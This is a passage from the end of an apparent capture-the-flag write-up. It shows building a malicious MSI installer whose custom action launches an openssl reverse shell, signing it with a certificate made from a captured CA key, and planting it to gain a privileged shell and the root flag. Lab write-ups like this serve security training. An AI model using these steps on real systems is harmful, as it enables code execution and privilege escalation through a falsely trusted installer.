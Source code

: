 This is basically a minimal version of the required xml that defines a custom action that executes the openssl shell as soon as the installer is started (on the "InstallInitialize" event). Notice that in the "ApplicationFiles" part you can specify files that will be included in the installer. The next step is to create wixobj from the xml and then an msi from the wixobj:

```
candle.exe exploit.wxs
light.exe -out exploit.msi exploit.wixobj
```

Now that we have created the msi file we need to sign it. In order to do that we have to take the given ca cert and create a new key that we sign with the ca cert:

```
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>makecert.exe -pe -n "CN=SPC" -a
 sha256 -cy end -sky signature -ic C:\users\xct\Desktop\MyCA.cer -iv C:\Users\xc
t\Desktop\MyCA.pvk -sv C:\users\xct\Desktop\spc.pvk c:\users\xct\Desktop\spc.cer
```

In order to use the newly created cert for signing we need to convert the cert to the pfx file format:

```
pvk2pfx -pvk C:\Users\xct\Desktop\spc.pvk -spc C:\Users\xct\Desktop\spc.cer -pfx C:\Users\xct\Desktop\spc.pfx
```

We can now finally use the pfx file to sign the msi file:

```
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>signtool sign /f c:\Users\xct\Desktop\spc.pfx C:\users\xct\Desktop\exploit.msi
```

We upload the file to the target on `D:\DEV\MSIs>`, exit the current shell and wait for the new shell (as user rupal) to spawn. After a moment we get the shell and can read the root flag! This concludes this box, many thanks to the creators [MinatoTW](https://twitter.com/MinatoTW_) and [egre55](https://twitter.com/egre55).